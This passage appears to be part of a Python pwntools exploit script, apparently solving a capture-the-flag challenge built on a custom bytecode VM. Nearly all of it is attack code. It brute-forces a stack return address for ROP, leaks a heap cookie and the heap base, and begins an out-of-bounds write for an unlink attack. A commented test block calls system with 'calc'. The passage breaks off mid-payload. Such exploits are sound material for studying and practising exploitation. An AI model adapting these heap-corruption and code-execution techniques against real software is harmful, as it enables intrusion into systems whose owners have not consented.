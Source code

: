 ```python
    code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 1, 8) + add_reg_imm(2, 7, 0, 8) + add_reg_imm(3, 7, 0x10, 8) + syscall()    # write stdout

# Bruteforce return address and ROP
code += add_reg_imm(0, 7, 0, 8) + add_reg_imm(1, 7, 0, 8) + add_reg_imm(2, 7, 0x100, 16) + add_reg_imm(3, 7, 0x140, 16) + syscall()   # read stdin
bruteforce_stack_code =  ld(5, 0x138, 64) + ld(4, 0x130, 64) + sub_reg_imm(4, 4, 0x8, 64) + st(4, 0x130, 64)                                                           # stack_addr - 8
bruteforce_stack_code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 5, 8) + add_reg_imm(2, 7, 0x100, 16) + add_reg_imm(3, 7, 0x38, 8) + syscall()  # write file 5
bruteforce_stack_code += add_reg_imm(0, 7, 0, 8) + add_reg_imm(1, 7, 6, 8) + add_reg_imm(2, 7, 0x300, 16) + add_reg_imm(3, 7, 0x8, 8) + syscall()   # read file 6
bruteforce_stack_code += ld(6, 0x300, 64) + jne(5, 6, 0xFFC4) # 4 + 4 + 2 * 2 + 3 * 6 + 4 * 2 + 4 * 2 + 10 + 4 = 60 = 0x3C
code += bruteforce_stack_code
code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 1, 8) + add_reg_imm(2, 7, 0x130, 16) + add_reg_imm(3, 7, 0x8, 8) + syscall()    # write stdout
code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 6, 8) + add_reg_imm(2, 7, 0x140, 16) + add_reg_imm(3, 7, 0x100, 16) + syscall() # write file 6

'''
################ for test
# arbitrary write
code += add_reg_imm(0, 7, 0, 8) + add_reg_imm(1, 7, 0, 8) + add_reg_imm(2, 7, 0x8, 8) + add_reg_imm(3, 7, 0x38, 8) + syscall()      # read stdin
code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 5, 8) + add_reg_imm(2, 7, 0x8, 8) + add_reg_imm(3, 7, 0x38, 8) + syscall()      # write file 5
code += add_reg_imm(0, 7, 0, 8) + add_reg_imm(1, 7, 0, 8) + add_reg_imm(2, 7, 0x8, 8) + add_reg_imm(3, 7, 0x38, 8) + syscall()      # read stdin
code += add_reg_imm(0, 7, 1, 8) + add_reg_imm(1, 7, 6, 8) + add_reg_imm(2, 7, 0x8, 8) + add_reg_imm(3, 7, 0x38, 8) + syscall()      # write file 6

# trigger system
code += push_imm(u64("calc\x00\x00\x00\x00"))
code += pop(0)
code += pop(1)
code += pop(1)
################ test done
'''

# End here
code += halt()

# Leak BufferHeap's cookie
code = code.ljust(0xFFE, b"\x00")
code += ret()

# Send code
p.sendafter("Please input your code: \r\n", code)

# Get encoded heap head and calculate heap cookie
p.send("heapaddr")
p.recvuntil("0x0d 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00")
chunk_head = p.recvline()[:-3].replace(b" 0x", b"") + b"0010"
chunk_head = u64(binascii.unhexlify(chunk_head).decode('latin-1'))
heap_cookie = chunk_head ^ chunk_head_ctor(0x1010, 1, 0x1010, 0, 0x10)

# Get FileHeap address from uninitialized chunk
p.recvuntil("heapaddr")
heap_base = u64(p.recvuntil(" ")[:-1].ljust(8, b"\x00")) - 0x150

# Send OOB write payload to do unlink attack
payload =  b'A' * 0x38 
```